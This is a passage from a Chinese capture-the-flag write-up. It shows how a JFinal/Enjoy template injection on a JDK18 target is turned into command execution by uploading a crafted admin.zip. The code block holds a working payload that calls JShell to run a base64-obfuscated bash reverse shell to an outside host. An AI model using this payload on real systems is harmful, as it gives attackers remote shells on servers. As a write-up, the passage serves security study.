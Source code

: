 image.png

完整的做法如下：

-   • 编写一个 hello.html，内容为第一行所示，开启 Enjoy 模板的静态方法支持
    
-   • 因为题目为 JDK18，调用 JShell 执行命令不受 Module 限制
    
-   • 将 hello.html 和 upload.html 打包为 admin.zip
    

```plain
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticMethodExpression(true))
#((jdk.jshell.JShell::create()).eval('Runtime.getRuntime().exec(new String("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzI5OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"));'))
zip admin.zip hello.html upload.html
```

![图片](assets/1701827499-1ca28fe30655d6339bba146e3fd44a7e.png "null")

image.png

上传 admin.zip

![图片](assets/1701827499-e0119760f2157032659dc0867948dad4.png "null")

image.png

访问/admin/hello 路由，开启 Enjoy 模板的静态方法支持

![图片](assets/1701827499-501afc266f2ba08e049206b47b0e3970.png "null")
